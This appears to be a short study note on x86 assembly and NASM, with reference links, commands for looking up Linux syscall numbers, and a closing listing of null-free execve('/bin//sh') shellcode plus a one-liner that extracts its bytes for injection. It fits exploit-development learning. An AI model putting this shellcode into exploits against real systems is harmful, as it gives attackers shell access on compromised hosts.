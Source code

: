 # nasm
- https://www.nasm.us/doc/nasmdo10.html
# x86 アセンブリ言語の基礎
- https://en.wikipedia.org/wiki/X86_assembly_language
- https://en.wikibooks.org/wiki/X86_Assembly/Interfacing_with_Linux
- [呼出規約 - Wikipedia](https://ja.wikipedia.org/wiki/%E5%91%BC%E5%87%BA%E8%A6%8F%E7%B4%84#cdecl)
# syscall
```bash
$ locate unistd_32.h
$ grep exit /usr/include/x86_64-linux-gnu/asm/unistd_32.h
$ grep exit /usr/include/x86_64-linux-gnu/asm/unistd_64.h
$ man 2 exit
$ man syscall
```
# nasm
```asm
; $ nasm -f elf32 shell.nasm && ld -m elf_i386 shell.o
; $ readelf -x .text a.out | grep -Eow '[0-9a-f]{2,8}' | tr -d '\n'
global  _start
_start:
        xor eax, eax
        xor ecx, ecx
        xor edx, edx
        mov al, 0xb
        push ecx ; "\0\0\0\0"
        push 0x68732f6e ; "n/sh"
        push 0x69622f2f ; "//bi"
        mov ebx, esp
        int 0x80
```

